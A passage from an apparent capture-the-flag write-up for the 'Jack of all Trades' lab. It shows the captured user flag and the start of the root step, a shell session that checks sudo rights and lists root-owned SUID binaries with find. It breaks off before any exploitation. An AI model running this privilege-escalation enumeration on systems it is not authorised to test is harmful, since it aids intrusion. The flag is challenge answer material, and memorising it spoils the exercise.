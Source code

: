 !["user-flag.png"](files/user-flag.png)

User flag: `securi-tay2020_{p3ngu1n-hunt3r-3xtr40rd1n41r3}`

# #2 - Root Flag

*Hint: /root/root.txt*

Jack is not in the sudoers but there are interesting programs owned by root with the SUID bit set:

~~~
jack@jack-of-all-trades:~$ sudo -l
[sudo] password for jack: 
Sorry, user jack may not run sudo on jack-of-all-trades.
jack@jack-of-all-trades:~$ find / -type f -user root -perm -u=s 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/pt_chown
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/strings
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/procmail
/usr/sbin/exim4
/bin/mount
/bin/umount
/bin/su
~~~
